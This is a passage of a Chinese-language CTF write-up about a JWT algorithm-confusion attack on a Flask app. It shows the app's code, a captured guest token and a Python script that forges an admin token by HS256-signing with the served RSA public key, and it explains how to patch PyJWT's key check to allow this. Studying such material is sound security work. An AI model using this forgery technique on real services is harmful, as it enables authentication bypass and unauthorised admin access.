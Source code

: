 ```
			logged_in = True
			admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
		resp = make_response(
			render_template("index.html", logged_in=logged_in, admin=admin, flag=FLAG)
		)
	return resp

@app.route("/publickey.pem")
def public_key():
	with open("./publickey.pem", "r") as f:
		resp = make_response(f.read())
		resp.mimetype = 'text/plain'
		return resp

if __name__ == "__main__":
	app.run()
```

大致就是登录时验证的是私钥，然后登录后验证的是公钥，然后公钥可以通过 /publickey.pem 获取

先登录成 guest，这时 Token 是

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
```

解密后信息部分是

```
{ "auth": "guest" }
```

然后再加密下

```
#!/usr/bin/env python
import jwt
import base64

with open("publickey.pem", "r") as f:
	PUBLIC_KEY = f.read()
print(jwt.encode({"auth":"admin"}, key=PUBLIC_KEY, algorithm='HS256'))
```

如果出错了就把报错地方注释掉 ( algorithms.py )

改成

```
def prepare_key(self, key):
        key = force_bytes(key)
        return key
```
